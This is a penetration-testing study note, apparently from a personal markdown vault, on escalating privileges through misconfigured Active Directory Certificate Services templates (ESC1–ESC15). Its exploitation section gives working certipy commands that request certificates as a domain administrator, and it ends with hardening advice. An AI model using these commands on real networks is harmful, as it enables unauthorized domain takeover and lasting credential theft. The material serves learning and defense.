

# 02 - AD CS Escalation: Vulnerable Template Misconfigurations

## 1. Executive Summary

The most common ADCS privesc: a **certificate template** that a low-priv user can enroll in, issues a cert usable for **authentication**, and lets the **requester choose the identity** (SAN). Request a cert as `Administrator`, authenticate via PKINIT, become domain admin — no exploit, just a misconfig. This note covers the template-side ESCs: **ESC1** (SAN supplied + auth EKU), **ESC2** (Any Purpose/no EKU), **ESC3** (Enrollment Agent), **ESC9** (no security extension), **ESC10** (weak cert mapping), **ESC13** (issuance policy → group), **ESC15** (EKUwu, arbitrary EKU on v1 templates).

## 2. Concept Overview

A template is exploitable when: **(a)** a principal you control has **enroll** rights, **(b)** no **manager approval / authorized signatures**, and **(c)** the cert can authenticate (EKU includes Client Auth / Smart Card Logon / PKINIT / Any Purpose / none). The differentiator per ESC is *how* you get an attacker-chosen identity into the cert or bypass the modern mapping protections.

## 3. Enumeration

```bash
certipy find -u user@domain -p pw -dc-ip <dc> -vulnerable -stdout
# look for: "ESC1".."ESC15", Enrollment Rights, ENROLLEE_SUPPLIES_SUBJECT,
#   Client Authentication EKU, Requires Manager Approval: False
```

## 4. Exploitation per ESC

- **ESC1 — ENROLLEE_SUPPLIES_SUBJECT + auth EKU**: request a cert specifying a privileged UPN as SAN.
  ```bash
  certipy req -u user@domain -p pw -ca <CA> -template <VulnTmpl> -upn administrator@domain
  certipy auth -pfx administrator.pfx -dc-ip <dc>      # PKINIT → TGT + NT hash
  ```
- **ESC2 — Any Purpose / no EKU**: cert works for any auth; if SAN suppliable, same as ESC1; otherwise use as an enrollment-agent-like/any-purpose cert.
- **ESC3 — Certificate Request Agent EKU**: enroll an Enrollment Agent cert, then request **on behalf of** another user:
  ```bash
  certipy req -u user@domain -p pw -ca <CA> -template <EnrollAgentTmpl>
  certipy req ... -template User -on-behalf-of 'domain\administrator' -pfx agent.pfx
  ```
- **ESC9 — `CT_FLAG_NO_SECURITY_EXTENSION`** (no szOID-NTDS-CA-SECURITY-EXT): cert lacks the SID binding, so combined with control over a target's `userPrincipalName` you can map to another account (bypasses strong mapping).
- **ESC10 — weak cert mapping** (registry `CertificateMappingMethods`/`StrongCertificateBindingEnforcement` weak): abuse UPN switch like ESC9 against any user (e.g. set victim UPN to DC$, get cert, restore).
- **ESC13 — issuance policy linked to a group**: a template with an issuance policy OID linked (via `msDS-OIDToGroupLink`) to a privileged group → the issued cert grants that group membership in the token.
- **ESC15 / EKUwu (CVE-2024-49019)** — v1 "Schema Version 1" templates: inject an **arbitrary Application Policy/EKU** (e.g. Client Auth) into the request even if not in the template.
  ```bash
  certipy req -u user@domain -p pw -ca <CA> -template WebServer \
    -application-policies 'Client Authentication' -upn administrator@domain
  ```

## 5. Mermaid Attack Flow



## 6. Post-Exploitation / Persistence
- The pfx is a durable credential (valid until expiry, survives password resets) → long-term DA access ([[05 - AD CS Certificate Theft Golden Certificate and Persistence]]).

## 7. Defense & Hardening
1. Remove `ENROLLEE_SUPPLIES_SUBJECT` from auth templates; require manager approval/authorized signatures; restrict enrollment rights.
2. Apply **KB5014754** strong certificate mapping (full enforcement) to kill ESC9/ESC10; patch ESC15 (CVE-2024-49019); remove unused v1 templates.
3. Audit `msDS-OIDToGroupLink` (ESC13); monitor enrollment events; least-privilege template ACLs.

## 8. Chaining Opportunities
- Pairs with coercion+relay ([[04 - AD CS NTLM Relay ESC8 and Coercion]]) when no direct enroll path.
- Cert → PKINIT → `UnPAC-the-hash` → PtH/DCSync (A-36).

## 9. Related Notes
- **[[01 - AD CS Overview and Enumeration]]**, **[[03 - AD CS Escalation Access Control and CA Misconfiguration]]**.
- A-36: **[[15 - DCSync Attack]]**, **[[06 - Pass the Hash (PtH)]]**.

## 10. Tools
`certipy` (req/auth), `Certify.exe`, `Rubeus` (asktgt /getcredentials), `openssl`.
